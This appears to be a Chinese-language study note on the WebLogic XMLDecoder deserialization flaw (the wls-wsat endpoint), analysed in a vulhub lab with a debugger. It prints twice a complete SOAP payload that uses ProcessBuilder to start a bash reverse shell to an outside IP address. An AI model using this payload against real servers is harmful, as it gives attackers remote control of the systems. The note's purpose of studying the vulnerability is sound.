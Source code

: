 # Weblogic

docker-compose.yml

```
version: '2'
services:
 weblogic:
   image: vulhub/weblogic:10.3.6.0-2017
   ports:
    - "7001:7001"
    - "12345:12345"                      
```

以及相关配置：https://www.cnblogs.com/ph4nt0mer/archive/2019/10/31/11772709.html

##  XMLDecoder反序列化

[学习](https://github.com/Maskhe/javasec/blob/master/17.XMLDecoder%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96.md)

看完上面师傅的流程，引发几个思考？
XMLDecoder底层工作原理？（未看）
为什么网上大量的payload弹计算器都用java.lang.ProcessBuilder这个类来触发？（`会报错异常、因为java.lang.Runtime的构造方法为private`）

## Wblogic中的XMLDecoder反序列化

```java
/wls-wsat/CoordinatorPortType    //触发路径
```

远程调试后可以断点在触发点
观察其调用栈：
![image-20221105114925440](https://cdn.jsdelivr.net/gh/zx-creat/myblog@master/img/202211051149504.png)

很明显知道其触发了`XMLDecoder.readObject`

payload为什么这么构造？

```
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
            <java version="1.8.0_131" class="java.beans.XMLDecoder">
                <void class="java.lang.ProcessBuilder">
                    <array class="java.lang.String" length="3">
                        <void index="0">
                            <string>/bin/bash</string>
                        </void>
                        <void index="1">
                            <string>-c</string>
                        </void>
                        <void index="2">
                            <string>bash -i &gt;&amp; /dev/tcp/120.24.245.87/7777 0&gt;&amp;1</string>
                        </void>
                    </array>
                    <void method="start" />
                </void>
            </java>
        </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body />
</soapenv:Envelope>
```

前面一部分是因为weblogic中固定了：
![image-20221105120055622](https://cdn.jsdelivr.net/gh/zx-creat/myblog@master/img/202211051200713.png)

最后获取到

```
            <java version="1.8.0_131" class="java.beans.XMLDecoder">
                <void class="java.lang.ProcessBuilder">
                    <array class="java.lang.String" length="3">
                        <void index="0">
                            <string>/bin/bash</string>
                        </void>
                        <void index="1">
                            <string>-c</string>
                        </void>
                        <void index="2">
                            <string>bash -i &gt;&amp; /dev/tcp/120.24.245.87/7777 0&gt;&amp;1</string>
                        </void>
                    </array>
                    <void method="start" />
                </void>
            </java>
```

![image-20221105120416082](https://cdn.jsdelivr.net/gh/zx-creat/myblog@master/img/202211051204250.png)

这里可以看到恶意payload被传入至`new WorkContextXmlInputAdapter()`中
也可以与最后的触发点想对应。
## 修复方式
采用添加黑名单的方式：
https://mp.weixin.qq.com/s?__biz=MzU5NDgxODU1MQ==&mid=2247485058&idx=1&sn=d22b310acf703a32d938a7087c8e8704
